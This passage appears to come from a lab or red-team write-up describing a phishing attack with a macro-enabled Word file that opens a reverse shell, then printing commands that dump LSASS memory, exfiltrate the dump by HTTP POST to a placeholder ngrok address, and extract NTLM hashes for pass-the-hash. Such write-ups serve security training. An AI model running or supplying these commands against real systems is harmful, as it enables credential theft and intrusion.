 
## 📦 3. Delivery

- Sent `.docm` to Barbara via phishing email
- Victim opened file, macro executed
- Reverse shell triggered to attacker (Joker VM)

📸 **Screenshots:**

*DOCM file opened on victim machine*
![Malicous docm opened on victim machine](https://github.com/user-attachments/assets/0f9c4442-49f1-4b0b-a3e0-f6badca130e1)

*Macro calls back to revshell.ps1 hosted on upload server*
![macro calls back to revshellps1 on hosted python server](https://github.com/user-attachments/assets/715f4b1d-0144-47f6-899e-8ed2e84c3325)

*Callback to Python server confirmed*
![target machine called back to python server and executed revshell successfully](https://github.com/user-attachments/assets/bd04c91c-f0d3-43f9-8efe-cdf7decd5793)

*Shell connection received*
![connection established](https://github.com/user-attachments/assets/ea1d5b7f-dbc4-4b45-8725-db9fbd1d6884)

---

## 💥 4. Exploitation

**Credential Dump:**
```bash
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full
```

**Exfiltration:**
```powershell
Invoke-WebRequest -Uri "http://<ngrok_url>/upload" -Method POST -InFile C:\Temp\lsass.dmp
```

**Hash Extraction:**
```bash
pypykatz lsa minidump lsass.dmp
```

📸 **Screenshots:**

*LSASS dump created*
![lsass dump completed](https://github.com/user-attachments/assets/b1a9c06a-6e6d-49fb-8463-0227c93b0b98)

*File exfiltrated*
![lsass dmp file in our posession](https://github.com/user-attachments/assets/05d4c43b-88f6-4c70-9129-2f4c59224837)

*NTLM hash used to pass-the-hash*
![NTLM hash used to pass the hash and RDP](https://github.com/user-attachments/assets/d10ef0a8-849a-4510-b365-ba13f3ebf132)

---
